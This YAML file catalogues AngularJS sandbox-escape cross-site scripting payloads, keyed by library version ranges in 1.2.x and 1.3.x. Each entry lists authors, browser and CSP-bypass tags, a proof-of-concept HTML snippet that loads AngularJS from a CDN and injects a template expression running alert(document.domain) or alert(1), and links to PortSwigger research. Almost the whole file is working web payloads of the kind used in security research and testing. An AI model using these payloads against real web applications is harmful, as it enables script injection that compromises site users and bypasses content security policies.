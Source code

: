 ```yaml
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.2.23/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(document.domain)"].sort(toString.constructor);}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.2.6-1.2.18:
    authors:
      - twitter:tehjh
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.2.18/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(document.domain)')()}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.2.2-1.2.5/1.2.27-1.2.29/1.3.0-1.3.20:
    authors:
      - twitter:garethheyes
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.3.20/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{{}.")));alert(1)//"}}</div>
    links:
      - https://portswigger.net/research/adapting-angularjs-payloads-to-exploit-real-world-applications
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
```